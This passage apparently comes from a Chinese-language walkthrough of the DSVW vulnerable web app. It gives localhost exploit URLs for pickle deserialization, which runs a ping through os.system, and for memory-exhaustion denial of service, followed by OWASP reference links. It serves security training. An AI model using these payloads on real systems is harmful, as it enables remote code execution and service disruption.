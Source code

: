 4.3.13 Component with Known Vulnerability (pickle)

使用含有已知漏洞的组件(pickle): pickle存在一个文件序列化漏洞。

漏洞地址:    
http://127.0.0.1:65412/?object=%28dp0%0AS%27admin%27%0Ap1%0A%28S%27admin%27%0Ap2%0AS%27admin%27%0Ap3%0Atp4%0AsS%27dricci%27%0Ap5%0A%28S%27dian%27%0Ap6%0AS%27ricci%27%0Ap7%0Atp8%0AsS%27amason%27%0Ap9%0A%28S%27anthony%27%0Ap10%0AS%27mason%27%0Ap11%0Atp12%0AsS%27svargas%27%0Ap13%0A%28S%27sandra%27%0Ap14%0AS%27vargas%27%0Ap15%0Atp16%0As.

EXPLOIT:

http://127.0.0.1:65412/?object=cos%0Asystem%0A(S%27ping%20-c%205%20127.0.0.1%27%0AtR.%0A

    这里执行了ping -c 5 127.0.0.1 命令

4.3.14 Denial of Service (memory)

拒绝服务(memory): 资源消耗型的 DoS 攻击, 通过大量的恶意请求来访问有缺陷的服务, 从而造成服务器的系统资源消耗(如: CPU利用率100%、内存耗尽等) 增大, 来影响正常用户的使用。往往会造成正常用户的无法打开或无法访问等一系列问题。

漏洞地址:    
http://127.0.0.1:65412/?size=32

EXPLOIT:

http://127.0.0.1:65412/?size=9999999

5 参考链接

    https://github.com/stamparm/DSVW
    https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OTG-INPVAL-005%29
    https://www.owasp.org/index.php/Testing_for_CSRF_%28OTG-SESS-005%29
    https://www.owasp.org/index.php/Testing_for_HTTP_Parameter_pollution_%28OTG-INPVAL-004%29
    https://www.owasp.org/index.php/Testing_for_XML_Injection_%28OTG-INPVAL-008%29
    https://www.owasp.org/index.php/XPATH_Injection
    http://www.w3school.com.cn/xpath/
    https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_%28OTG-INPVAL-001%29
    https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_%28OTG-INPVAL-002%29
    https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_%28OTG-CLIENT-001%29
    http://blog.knownsec.com/2015/03/jsonp_security_technic/
    https://sobug.com/article/detail/11
    https://www.owasp.org/index.php/Content_Spoofing
    https://www.owasp.org/index.php/Testing_for_Clickjacking_%28OTG-CLIENT-009%29
    https://www.owasp.org/index.php/Unvalidated_Redirects_and_Forwards_Cheat_Sheet
    https://www.owasp.org/index.php/Full_Path_Disclosure
    https://www.imperva.com/resources/glossary?term=source_code_disclosure
    https://www.owasp.org/index.php/Path_Traversal
    https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion
    https://www.owasp.org/index.php/HTTP_Response_Splitting
    http://www.moqifei.com/archives/609
    https://www.owasp.org/index.php/Denial_of_Service
